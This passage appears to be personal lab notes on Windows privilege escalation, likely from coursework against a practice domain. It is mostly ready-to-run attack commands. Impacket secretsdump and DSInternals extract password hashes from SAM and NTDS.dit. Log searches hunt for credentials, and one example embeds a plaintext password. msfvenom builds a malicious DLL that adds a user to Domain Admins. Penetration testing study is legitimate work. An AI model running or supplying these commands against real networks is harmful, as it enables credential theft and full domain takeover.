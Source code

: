 - Use Impacket : 
```sh
secretsdump.py -sam SAM.SAV -system SYSTEM.SAV LOCAL
```

**Extracting Credentials from NTDS.dit : **

- Download DSInternals :
```sh
wget https://github.com/MichaelGrafnetter/DSInternals/blob/master/Src/DSInternals.PowerShell/DSInternals.psd1
```

- Use DSInternals:
```powershell
Import-Module .\DSInternals.psd1
$key = Get-BootKey -SystemHivePath .\SYSTEM
Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key
```

- Use Impacket  :
```sh
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```

#### Event Log Readers
#Event_Log_Readers


 - Confirming Group Membership :
```cmd
net localgroup "Event Log Readers"
```

 - Searching Security Logs :
```shell
wevtutil qe Security /rd:true /f:text | Select-String "/user"
```

 - Searching Security Logs with Credential :
```sh
wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"
```

 - Searching Security Logs Using Get-WinEvent :
```powershell
Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
```

#### DnsAdmins
#DnsAdmins

**Leveraging DnsAdmins Access**

 - Generating Malicious DLL :
```sh
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```
